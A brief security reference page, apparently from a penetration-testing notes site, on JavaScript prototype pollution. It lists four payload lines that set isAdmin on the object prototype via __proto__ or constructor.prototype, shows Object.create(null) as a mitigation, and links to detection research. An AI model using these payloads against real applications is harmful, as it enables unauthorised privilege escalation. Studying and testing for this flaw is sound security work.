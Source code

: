 ```yaml
---
title: "Prototype Pollution"
description: "Overview of Prototype Pollution"
lead: "Overview of Prototype Pollution"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "javascript"
weight: 620
toc: true
---
```


## Payloads

```js
obj.__proto__.isAdmin = true;
obj["__proto__"]["isAdmin"] = true;

obj.constructor.prototype.isAdmin = true;
obj["constructor"]["prototype"]["isAdmin"] = true;
```

## Mitigation

```js
({}).isAdmin
=> true

Object.create(null).isAdmin
=> undefined
```

## Resources

- [Server-side prototype pollution: Black-box detection without the DoS](https://portswigger.net/research/server-side-prototype-pollution)
- [Server side prototype pollution, how to detect and exploit](https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [Research on Prototype Pollution](https://blog.s1r1us.ninja/research/PP)
- [CodeQL Prototype-polluting function](https://codeql.github.com/codeql-query-help/javascript/js-prototype-pollution-utility/)

